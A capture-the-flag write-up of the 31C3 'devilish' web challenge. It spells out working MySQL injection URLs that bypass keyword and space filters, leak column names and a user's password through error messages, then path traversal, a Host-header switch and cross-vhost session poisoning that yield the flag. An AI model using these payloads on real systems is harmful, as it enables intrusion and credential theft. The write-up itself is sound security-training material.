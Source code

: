 ```yaml
---
layout: post
title: "31C3 CTF 'devilish' writeup"
categories: writeups 31c3-ctf
tags: exploitation
author: eboda
---
```


*devilish* was a web challenge worth 30 points at the 31C3 CTF.

![devilish page]({{ site.url }}/imgs/31c3-ctf_devilish_1.png)

## SQL injection
The website itself offered a login form as well as a member list and profile pages. The profile pages used a rewritten URL:

    http://188.40.18.70/PROFILE/55/Dracula

We found a SQL injection vulnerability by adding a backslash `\` either after the *55* or *Dracula*:

    http://188.40.18.70/PROFILE/55\/Dracula

This produces an error message in a Halloween-type font, so only checking the HTML source reveals it:

{% highlight HTML %}
<!--SELECT * FROM users WHERE id_user='55\' AND Us3rN4m3='Dracula'-->
<span class='styleX'>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'Dracula'' at line 1</span>
{% endhighlight %}

We are dealing with a MySQL dbms and the error is obviously due to the `'` getting escaped by the backslash. We also learned a table name: `users`.

However, the  actual  injection was rather tricky as a lot of SQL keywords were filtered, such as `UNION`, `GROUP`, `OR` (therefore blocking also infORmation_schema), `FILE`, `'`, `/*`, spaces and some more.
Note that in MySQL you can bypass a filter on spaces rather easily with either making use of paranthesis or by using ASCII chars, which MySQL interprets as spaces, such as %09 (tab), %0a (new line), %0b, %0c. %a0.

Without being able to access `information_schema` we could not retrieve the column names of table `users` in the traditional way.
First we checked the number of columns in users:

    http://188.40.18.70//PROFILE/55\/||(select*from(users))=1--%09-

The error output of this gave us the number of columns:

    Operand should contain 8 column(s)

Then we continued by using an error based injection with the polygon() method. Queries passed to polygon() are expanded and reflected in the error message:

    http://188.40.18.70//PROFILE/55\/||username=||polygon((select(1)from(select*from(users))x))--%09-

The output of this was the following:

    Illegal non geometric '(select 1 from (select `devilish`.`users`.`id_user` AS `id_user`,`devilish`.`users`.`Us3rN4m3` AS `Us3rN4m3`,`devilish`.`users`.`Em4iL4dR3Szz` AS `Em4iL4dR3Szz`,`devilish`.`users`.`S4cR3dT3xT0' value found during parsing

As you can see, we now had learned some column names already. However, the output was cut off since the length of error messages was limited. We could get more output by retrieving only a row of NULLs:

    http://188.40.18.70//PROFILE/55\/||polygon((select(1)from(select*from(users)where(id_user=0))x))--%09-

Now the output for each column was shorter and we learned additional column names: 

    Illegal non geometric '(select 1 from (select NULL AS `id_user`,NULL AS `Us3rN4m3`,NULL AS `Em4iL4dR3Szz`,NULL AS `S4cR3dT3xT0Fm3`,NULL AS `MyPh0N3NumB3RHAHA`,NULL AS `Addr3Zz0F_tHi5_D3wD`,NULL AS `CHAR_LOL`,NULL AS' value found during parsing

Unfortunately, the last column name - the one for the password column :) - didn't fit into the error message, it was cut off at **NULL AS**.

Another way to leak column names is to join a table with itself:

    http://188.40.18.70/PROFILE/55\/||(select(1)from(select*from(users)join(users`x`))f)--%09-

Note, that you need to give the second users table an alias, otherwise MySQL will complain about duplicate tables.
This gave us the first column: 

    Duplicate column name 'id_user'

To get the remaining column names, we have to trick MySQL into ignoring the columns we are not interested in. This can be done with the `USING` keyword. MySQL assumes that columns passed in a list after `USING` are present in both tables of the join and joins the table on them:

    http://188.40.18.70/PROFILE/55\/||(select(1)from(select*from(users)join(users`x`)using(id_user))f)--%09-

And we get the second column:

    Duplicate column name 'Us3rN4m3'

We could retrieve all columns - including the last one - with this method:

    http://188.40.18.70/PROFILE/55\/||(select(1)from(select*from(users)join(users`x`)using(id_user,Us3rN4m3,Em4iL4dR3Szz,
    S4cR3dT3xT0Fm3,MyPh0N3NumB3RHAHA,Addr3Zz0F_tHi5_D3wD,CHAR_LOL)))f)--%09-

Which gave us the password column: 

    Duplicate column name 'P4sWW0rD_0F_M3_WTF'

Then with simple error based injection we retrieved a login:

    http://188.40.18.70/PROFILE/55\/||polygon((select(1)from(select(Us3rN4m3),(P4sWW0rD_0F_M3_WTF)from(users)where(id_user=55))x))--%09-
    

The output is the username and password of the user with id=55:

    Illegal non geometric '(select 1 from (select 'Dracula' AS `Us3rN4m3`,'ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz' AS `P4sWW0rD_0F_M3_WTF` from `devilish`.`users` where ('55' = 55)) `x`)' value found during parsing

    user: Dracula
    pass: ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz

## Directory Listings
When logging in, we were greeted with a page allowing us to browse some directories of the logged in user. However, with simple path traversal it was easy to manage to browse any directory on the server:

![devilish flag]({{ site.url }}/imgs/31c3-ctf_devilish_2.png)

We were able to access some of the source pages of the website in the following folder:

    http://188.40.18.70/ACCESS?action=browse&dir=../../__WebSiteFuckingPrivateContentNotForPublic666

We could read the LOGIN script, by simply navigating to the file with the browser:

{% highlight php %}
<?php
    if(@$_SESSION['user']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(mysqli_num_rows(mysqli_query($con,"SELECT * FROM users WHERE Us3rN4m3='".mysqli_real_escape_string($con,@$_POST['user'])."' AND P4sWW0rD_0F_M3_WTF='".mysqli_real_escape_string($con,@$_POST['pass'])."' "))>0){
            $_SESSION=$_POST;
            header("location: ".$LINK);die();
        }else{
            $Error=1;
        }
    }
?>
{% endhighlight %}

Notice that the `$_SESSION` variable will be set to the `$_POST` variable here. We will need to use this fact later on.

Other directories of interest were /home/user and /home/devilish.local. The former  contained a `flag.txt`, but there was no way to read it, while the latter contained website files similar to the ones we already knew. Further investigation into the server revealed that in /etc/apache2/sites-enabled next to the default site, the devilish.local virtual host was enabled as well, serving a website out of the /home/devilish.local directory.

## Private portal

With simply changing the Host  header of the http request to `devilish.local`, we could then access the website presenting us with a login prompt to a private portal. Again we could fetch the source code of the login page:

{% highlight php %}
<?php
    if(@$_SESSION['is_ExclusiveMember']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(@$_POST['user']===$uLOGIN && @$_POST['pass']===$uPASSWORD){
            $_SESSION['is_ExclusiveMember']=1;
            header("location: ".$LINK);
            die();
        }else{
            $Error=1;
        }
    }
?>
{% endhighlight %}

Notice, that the session variable `is_ExclusiveMember` is used to mark a user as logged in. PHP sessions are not aware of virtual hosts by default and are shared between them. This means, we actually have control over the `$_SESSION` variable, as in the first LOGIN script, it is set to `$_POST`.

The things left to do are to login in the first LOGIN script and supply an additional POST parameter `is_ExclusiveMember=1`. Using the new session cookie, we then make a request to the private LOGIN script and get the flag displayed.

`Here's your secret 31c3_Th3r3_4R3_D3v1li5h_Th0ght5_ev3N_1N_th3_M0sT_4ng3l1c_M1nd5`

